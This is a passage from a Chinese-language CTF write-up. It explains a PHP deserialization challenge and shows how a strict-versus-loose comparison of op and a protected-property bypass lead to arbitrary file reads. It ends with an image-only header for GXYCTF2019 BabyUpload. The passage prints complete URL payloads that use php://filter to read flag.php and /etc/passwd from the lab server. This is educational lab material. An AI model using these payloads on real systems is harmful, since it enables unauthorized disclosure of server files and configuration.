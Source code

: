 ```
public  function` `process() {
  if($this->op == "1") {
    $this->write();
  } else if($this->op == "2") {
    $res= $this->read();
    $this->output($res);
  } else{
    $this->output("Bad Hacker!");
  }
}
```

查看代码可以看出来，GET方式传入序列化的str字符串，str字符串中每一个字符的ASCII范围在32到125之间，然后对其反序列化。

如果op==="2"，将其赋为"1"，同时content赋为空，进入process函数，需要注意到的地方是，这里op与"2"比较的时候是强类型比较

进入process函数后，如果op=="1"，则进入write函数，若op=="2"，则进入read函数，否则输出报错，可以看出来这里op与字符串的比较变成了弱类型比较==。

所以我们只要令op=2,这里的2是整数int。当op=2时，op==="2"为false，op=="2"为true，接着进入read函数

整个利用思路就很明显了，还有一个需要注意的地方是，$op,$filename,$content三个变量权限都是protected，而

#### protected权限的变量在序列化的时会有%00*%00字符，

%00字符的ASCII码为0，就无法通过上面的is_valid函数校验。

![img](https://img2020.cnblogs.com/blog/1828215/202005/1828215-20200512095733036-1748012487.png)

在这里有几种绕过的方式，简单的一种是：php7.1+版本对属性类型不敏感，本地序列化的时候将属性改为public进行绕过即可

paylaod:?str=O:11:%22FileHandler%22:3:{s:2:%22op%22;i:2;s:8:%22filename%22;s:57:%22php://filter/read=convert.base64-encode/resource=flag.php%22;s:7:%22content%22;N;}

 比赛的时候还有相对路径和绝对路径的问题，需要拿到绝对路径才能读取flag

可以先尝试读取/etc/passwd检验自己的payload是否正确，然后再读取服务器上的配置文件，猜出flag.php所在的绝对路径，再将其读取。

```
http:``//82f3c803-c285-4d4c-846c-59d240b730e0.node3.buuoj.cn/?str=O:11:%22FileHandler%22:3:{s:2:%22op%22;i:2;s:8:%22filename%22;s:60:%22php://filter/read=convert.base64-encode/resource=/etc/passwd%22;s:7:%22content%22;N;}
```

　　下面这个payload是比赛的时候用的，buuoj上环境路径不一样。

```
http:``//82f3c803-c285-4d4c-846c-59d240b730e0.node3.buuoj.cn/?str=O:11:%22FileHandler%22:3:{s:2:%22op%22;i:2;s:8:%22filename%22;s:67:%22php://filter/read=convert.base64-encode/resource=/web/html/flag.php%22;s:7:%22content%22;N;}
```

## [GXYCTF2019]BabyUpload

### ![image-20240426201402591](C:\Users\86182\assets\image-20240426201402591.png)

1.![](https://img-blog.csdnimg.cn/2021070719261872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyNzAyOTgx,size_16,color_FFFFFF,t_70)

